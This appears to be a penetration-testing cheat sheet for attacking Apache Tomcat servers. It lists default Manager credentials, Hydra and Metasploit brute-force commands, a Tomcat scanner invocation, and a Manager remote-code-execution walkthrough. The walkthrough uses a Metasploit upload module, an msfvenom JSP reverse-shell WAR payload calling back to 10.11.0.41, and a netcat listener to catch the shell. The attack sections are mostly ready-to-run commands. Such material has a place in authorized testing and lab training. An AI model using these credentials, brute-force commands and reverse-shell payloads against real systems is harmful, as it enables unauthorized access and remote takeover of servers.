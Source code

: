 # Default Credentials

- `admin:admin`
- `tomcat:tomcat`
- `admin:` *(empty password)*
- `admin:s3cr3t`
- `tomcat:s3cr3t`
- `tomcat:s3cret`
- `admin:tomcat`

# Brute-Force Techniques

## Using Metasploit
Metasploit has an auxiliary module to brute-force login for Tomcat Manager:

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

## Using Hydra
Hydra is a powerful tool for brute-forcing authentication credentials. The following command is an example of brute-forcing the Tomcat Manager login page:

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```
- **-L** specifies the file containing a list of usernames.
- **-P** specifies the file containing a list of passwords.
- **-f** stops the attack when the first valid credential is found.

# Scanning

## Apache Tomcat Scanner

The Apache Tomcat Scanner is a Python tool that can be used to scan for and identify vulnerable Apache Tomcat servers.

**Installation:**
```bash
sudo python3 -m pip install apachetomcatscanner
```

**Usage:**
```bash
apachetomcatscanner -tt 192.168.12.2 -tp 8080
```
- **-tt** specifies the target IP.
- **-tp** specifies the target port.

## Passwords Backtrace Disclosure
Sometimes sensitive information such as credentials might be disclosed in error pages or specific files:

- `/auth.jsp` might disclose passwords or other sensitive information.

---

# Account Exploitation

## Manager - Remote Code Execution (RCE)
To exploit Tomcat Manager for RCE, you need to deploy a WAR file with sufficient privileges (roles: `admin`, `manager`, or `manager-script`). These roles are often defined in `tomcat-users.xml`, typically found at `/usr/share/tomcat9/etc/tomcat-users.xml` (this path may vary based on the Tomcat version).

### Proof of Concept (PoC)

1. **Using Metasploit:**
    ```bash
    use exploit/multi/http/tomcat_mgr_upload
    msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
    msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
    msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
    msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
    msf exploit(multi/http/tomcat_mgr_upload) > exploit
    ```

2. **Manually Using `msfvenom`:**
   Generate a WAR payload with `msfvenom`:
   ```bash
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8083 -f war -o revshell.war
   ```
   - **-p** specifies the payload type.
   - **LHOST** specifies the local host for the reverse shell.
   - **LPORT** specifies the local port for the reverse shell.
   - **-f war** outputs the payload in WAR format.
   - **-o** specifies the output file.

   Upload the generated WAR file to Tomcat Manager and access it via `/revshell/`.

3. **Start a Listener:**
   Set up a listener on your machine to catch the reverse shell:
```bash
   nc -lvnp 8083
```
   - **-l** sets Netcat to listen mode.
   - **-v** enables verbose output.
   - **-n** prevents DNS resolution.
   - **-p** specifies the port to listen on.